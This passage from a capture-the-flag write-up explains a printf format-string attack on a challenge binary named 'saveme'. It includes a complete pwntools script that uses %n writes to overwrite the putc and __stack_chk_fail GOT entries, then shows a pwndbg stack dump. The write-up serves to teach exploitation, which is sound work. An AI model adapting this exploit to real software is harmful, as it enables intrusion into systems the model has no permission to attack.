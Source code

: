```py

p.sendline(payload)
```

But the program crashes. Specifically, it crashes at `movaps` instruction inside `scanf`. [`movaps`](https://stackoverflow.com/questions/51070716/glibc-scanf-segmentation-faults-when-called-from-a-function-that-doesnt-align-r) instruction requires [16 byte alignment of the stack pointer](https://stackoverflow.com/questions/51070716/glibc-scanf-segmentation-faults-when-called-from-a-function-that-doesnt-align-r), but `call putc` instruction offsets the stack pointer by 8 bytes, which is not fixed because we make it point to the middle of `main`, not the start of a function. Hmm. But if the problem is misalignment by 8 bytes due to a call, then two calls would surely fix it!

Now we overwrite the `GOT` entry of `putc` to point to the `call __stack_chk_fail` at `0x40154b`, and overwrite `GOT` entry of `__stack_chk_fail` to point to the second call to `scanf`, at `0x4014f9`. So we would like to write values of `0x40` at two places, `0x14f9`, then `0x154b` (`printf` does not clear out the count of bytes written after `%n`, so the values to be written need to be increasing). We can do this:

```py
from pwn import *

p = process('./saveme')
elf = ELF('./saveme')

putc_got = elf.got['putc']
stk_got = elf.got['__stack_chk_fail']

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')

payload  = b'%64p'      # 0x40
payload += b'%13$n%14$n'# at putc_got+2 and stk_got+2
payload += b'%5305p'    # 0x14f9
payload += b'%15$hn'    # at stk_got
payload += b'%82p'      # 0x154b
payload += b'%16$hn'    # at putc_got
payload += b'\x00'*(8-(len(payload)%8)) + p64(putc_got+2) + p64(stk_got+2) + p64(stk_got) + p64(putc_got)

p.sendline(payload)
```

We step through gdb and confirm that `scanf` finishes without crashing! Now we have infinite loop of `scanf` - `printf`, let's go leak the heap address and get the flag!

```
pwndbg> x/32gx $rsp-0x100
0x7ffcaf349810: 0x0000000000000000      0x0000000000000000
0x7ffcaf349820: 0x00007ffcaf349990      0x00007f109ac43192
0x7ffcaf349830: 0x0000003000000008      0x00007ffcaf349910
0x7ffcaf349840: 0x00007ffcaf349850      0xf2f7e6746ae2d000
0x7ffcaf349850: 0x00007ffcaf349860      0x00007ffcaf349930
0x7ffcaf349860: 0x0000000000000000      0x0000000000000000
0x7ffcaf349870: 0x000000000000154b      0x000000000000154b
0x7ffcaf349880: 0x000000000000000a      0x000000007fffffff
0x7ffcaf349890: 0x0000000000000d68      0x000000000000000a
0x7ffcaf3498a0: 0x00007f109adcd6a0      0x0000000000402131
0x7ffcaf3498b0: 0x00000000004040c0      0x00007f109adc94a0
0x7ffcaf3498c0: 0x0000000000000000      0x00007f109ac70ec3
0x7ffcaf3498d0: 0x000000000000000a      0x00007f109adcd6a0
0x7ffcaf3498e0: 0x0000000000402131      0x00007f109ac645ca
0x7ffcaf3498f0: 0x0000000000401560      0x00007ffcaf349990
0x7ffcaf349900: 0x0000000000401560      0x0000000000401511
```
